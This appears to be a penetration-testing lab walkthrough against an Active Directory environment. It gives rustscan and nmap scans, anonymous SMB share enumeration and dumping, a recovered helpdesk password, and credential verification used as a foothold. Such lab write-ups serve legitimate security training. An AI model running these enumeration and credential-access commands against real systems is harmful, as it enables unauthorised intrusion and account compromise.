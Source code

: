### Ports Scanning
```sh
rustscan -a 192.168.52.130,192.168.52.131,192.168.52.132
```
![dcports](assets/dcports.png)<br>

```sh
cat ports.txt | cut -d '/' -f 1 | tr '\n' ','
```
![dcports](assets/dcports2.png)<br>

```sh
nmap -p<seqence_of_ports> -sC -sV -v -oN dc.full 192.168.52.130
```

### Smb Enumeration
```sh
python3 smbsharesdumper.py -d corp.local  -u anonymous -p '' --host 192.168.52.130 --list-shares --debug

nxc smb 192.168.52.130 -u anonymous -p '' --shares

smbclient -L 192.168.52.130 -N
```
![alt text](assets/shares_enum0.png)<br>
![alt text](assets/shares_enum1.png)<br>
![alt text](assets/shares_enum2.png)<br>

```sh
python3 smbsharesdumper.py -d corp.local  -u anonymous -p '' --host 192.168.52.130    --dump --destination output

smbclient \\\\192.168.52.130\\Helpdesk -U anonymous
```
![alt text](assets/shares_dump1.png)<br>
![alt text](assets/shares_dump2.png)<br>

```
user: helpdesk
pass: YourS3cret
```
### Creds Verification
```sh
nxc smb 192.168.52.130 -u helpdesk -p YourS3cret
```
![alt text](assets/foothold.png)

### Note:
Members of helpdesks group (helpdesk) are local administrators on pc01. So this machine can be used as foothold on the taget active directory environement. 
<br>
With that being said future attacks an enumeration can be preformed form pc01 or from kali or even the host machine (Domain Non Joined Machine).
